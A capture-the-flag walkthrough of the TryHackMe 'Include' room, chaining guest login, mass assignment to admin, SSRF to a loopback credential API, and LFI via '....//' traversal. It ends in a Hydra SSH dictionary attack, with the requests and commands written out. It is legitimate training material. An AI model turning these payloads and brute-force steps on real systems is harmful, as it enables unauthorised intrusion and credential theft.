## Overview

**Include** ([TryHackMe](https://tryhackme.com/room/include)) is a credential-relay chain across two web apps. A `guest/guest` login and a mass-assignment bug make us admin on the Node/Express Review App (port 4000), which unlocks an SSRF that pulls credentials for the SysMon Apache app (port 50000) and the first flag. An LFI in SysMon then leaks `/etc/passwd`, Hydra cracks a weak SSH password, and the second flag is in `/var/www/html`.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, browser dev tools, Burp Suite |
| Privesc to admin | mass assignment via the activity form |
| SSRF / credentials | Burp Repeater, `base64 -d` |
| LFI | `lfimap`, Apache directory browsing |
| Credential attack | `hydra`, `ssh` |

---

## Enumeration

### Port scan

```bash
nmap -p- -sV 10.114.187.216 
```

```text
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host:  mail.filepath.lab; OS: Linux
```

A full mail stack (SMTP/POP3/IMAP) and two separate web apps: Node/Express on **4000** and Apache on **50000**. The mail ports never went anywhere for me — the two web apps are the whole box.

### SysMon (port 50000)

Port 50000 is a "SysMon" portal split into a **Restricted Portal** landing page and a separate **Login** page.





No credentials to try yet, so I parked it. It's the target for the first flag once the other app coughs up creds.

### Review App (port 4000)

Port 4000 is just a login form, and the placeholder text spells out the answer — **guest/guest** works.




Inside is a small social app: a "My Profile" card for `guest`, a list of "All Available Friends", and a detail page per friend.

---

## Foothold — mass assignment to admin

Opening a friend's detail page (`View Profile`) dumps the raw user object, and one field jumps out:



```text
id: 1
name: "guest"
age: 25
country: "UK"
albums: [{"name":"USA Trip","photos":"www.thm.me"}]
isAdmin: false
profileImage: "/images/prof1.avif"
```

So the user record carries an `isAdmin` boolean. Below the details there's a **"Recommend an Activity"** form with two free-text fields, *Activity Type* and *Activity Name*. A generic key/value form that writes back to a user object is the shape of a mass-assignment bug — the backend copies whatever field names you send straight onto the record without checking which keys are allowed. So instead of recommending an activity, we set the *type* to the property we actually want to change and the *name* to its value:



The object comes back with the field flipped:



```text
isAdmin: "true"
```

We just wrote `isAdmin` onto our own account. Reload, and the guest session is now an admin session with new pages in the nav.

---

## SSRF — reaching the internal service

### The API dashboard

Admin unlocks an **API Dashboard** that documents the app's internal APIs with sample requests. It reads like a map of a service we can't touch directly:



```text
Internal API
GET http://127.0.0.1:5000/internal-api
Response:
{
  "secretKey": "<SECRET_KEY>",
  "confidentialInfo": "This is very confidential."
}

Get Admins API
GET http://127.0.0.1:5000/getAllAdmins101099991
Response:
{
  "ReviewAppUsername": "admin",
  "ReviewAppPassword": "xxxxxx",
  "SysMonAppUsername": "administrator",
  "SysMonAppPassword": "xxxxxxxxx",
}
```

Two things matter. The interesting endpoints live on `127.0.0.1:5000` — a loopback-only service, which is why nmap never saw it. And `getAllAdmins101099991` returns credentials for *both* apps, except the sample masks the values (`xxxxxx`). We need the server to fetch that URL for real.

> The `internal-api` response also leaks a `secretKey`. I burned a while on this: `connect.sid` is a signed Express session cookie, so my first thought was that the leaked key might be the HMAC secret used to sign it, which would let me forge an admin cookie outright instead of messing with the app. It isn't the cookie secret, so that went nowhere — but it's a reasonable guess when a "secretKey" is sitting next to a signed session token. Parked it and moved on.
{: .prompt-info }

### Banner URL updater = SSRF

The admin **Settings** page has an "Update Banner Image URL" field. It stores a URL that the server fetches later, which is exactly the SSRF primitive needed to reach `127.0.0.1:5000`.



Before trusting it, I confirmed the server really does make the outbound request by aiming it at a listener I control:

```bash
python3 -m http.server 8000
```

```http
POST /update-banner-image HTTP/1.1
Host: 10.114.187.216:4000
Content-Type: application/x-www-form-urlencoded
Cookie: connect.sid=s%3A...; PHPSESSID=...

url=http://<x.x.x.x>:8000/image.png
```

The request lands:

```text
10.114.187.216 - - [16/Jul/2026 14:07:05] "GET /image.png HTTP/1.1" 404 -
```

So the fetcher will pull any URL, internal or external. Now aim it at the internal endpoint instead:

```text
url=http://127.0.0.1:5000/getAllAdmins101099991
```

The stored "banner" comes back as a base64 `data:` URI — the app wrapped the JSON response as an image data URL:



Decoding it:

```bash
echo '<base64-response>' | base64 -d
```

```json
{"ReviewAppUsername":"admin","ReviewAppPassword":"<REVIEW_PASS>",
 "SysMonAppUsername":"administrator","SysMonAppPassword":"<SYSMON_PASS>"}
```

The real, unmasked credentials for both apps.

---

## Flag 1 — SysMon dashboard

Back to the SysMon login on port 50000, this time as `administrator` / `<SYSMON_PASS>`. That lands on the System Monitoring dashboard with the first flag on it:



> **Flag 1** (SysMon dashboard): `THM{...}`
{: .prompt-info }

---

## Local file inclusion

The second flag lives somewhere under `/var/www/html`, so I needed a way to read files off the SysMon host.

> One detail that cost me time: the internal API from the SSRF step is on port **5000** (loopback only), while the public SysMon Apache site is on **50000**. Different services — I conflated the two for a bit before it clicked that the internal one was never something I could hit directly.
{: .prompt-warning }

Directory browsing is on for the SysMon site, which exposes a couple of directories worth reading:





After a few tries that went nowhere, I went back and watched the SysMon traffic in Burp's proxy history. The profile avatar isn't a plain static file — it loads through `profile.php?img=profile.png`. A PHP script taking a filename as a query parameter is the classic LFI shape, so I pointed `lfimap` at it:

```bash
python3 lfimap.py -U 'http://10.114.187.216:50000/profile.php?img=PWN' \
  -C 'connect.sid=s%3A...; PHPSESSID=...' -a
```

```text
[i] Testing GET 'img' parameter...
[+] LFI -> 'http://10.114.187.216:50000/profile.php?img=....//....//....//....//
           ....//....//....//....//....//....//....//etc/passwd'
----------------------------------------
Requests sent: 47
Vulnerabilities found: 1
```

Clean LFI via `....//` traversal. The `....//` payload works because the app tries to sanitise the path by stripping `../` sequences, but it does so in a single non-recursive pass: given `....//`, it removes the inner `../` and leaves the outer characters behind, which collapse back into `../`. Chaining enough of them still walks up to the filesystem root and reaches `/etc/passwd`. Pulling it gives the interactive accounts to go after (service accounts trimmed):

```text
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```

I also noted the flag could be read straight through this LFI once I knew its filename, but I didn't have the filename yet — so the passwd file being the more immediate win, I went for the accounts first.

---

## Flag 2 — SSH via a weak password

`joshua` and `charles` are real login users, and SSH is open. Rather than keep reading files blind through the LFI, I threw a dictionary attack at SSH:

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt ssh://10.114.187.216
```

```text
[22][ssh] host: 10.114.187.216   login: joshua   password: <JOSHUA_PASS>
1 of 1 target successfully completed, 1 valid password found
```

`joshua`'s password is a top-of-`rockyou` hit that falls in seconds. SSH in, and the second flag is right in the web root:

```bash
joshua@ip-10-114-187-216:~$ cd /var/www/html; ls -la
-rw-rw-r-- 1 ubuntu ubuntu   38 Feb 22  2024 <flaghash>.txt
-rw-rw-r-- 1 ubuntu ubuntu  257 Feb 23  2023 api.php
-rw-rw-r-- 1 ubuntu ubuntu  932 Feb 26  2024 auth.php
-rw-rw-r-- 1 ubuntu ubuntu 3504 Feb 21  2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu  444 Mar 12  2024 profile.php
...

joshua@ip-10-114-187-216:/var/www/html$ cat <flaghash>.txt
THM{...}
```

> **Flag 2** (`/var/www/html`): `THM{...}`
{: .prompt-info }

The LFI and the SSH route land on the same file, so once the filename was known I could have read it straight through `profile.php?img=` — SSH just also hands over a shell.

---

## Conclusion

Include is a credential-relay chain across two apps, and each stage leaks what the next one needs:

1. **Guessable credentials** — the Review App accepts `guest/guest`, spelled out on the login page.
2. **Mass assignment** — the "Recommend Activity" form copies arbitrary field names onto the user object, so `isAdmin`/`true` promotes our own account to admin.
3. **SSRF** — the admin banner-URL updater fetches any URL server-side, reaching a loopback-only service on `127.0.0.1:5000` that never shows up in an external scan.
4. **Information disclosure** — the internal `getAllAdmins` endpoint returns base64-encoded credentials for the second app.
5. **LFI** — SysMon's `profile.php?img=` allows `....//` traversal to read `/etc/passwd` and enumerate users.
6. **Weak SSH password** — `joshua`'s password is a `rockyou` hit that cracks in seconds, handing over a shell and the final flag.
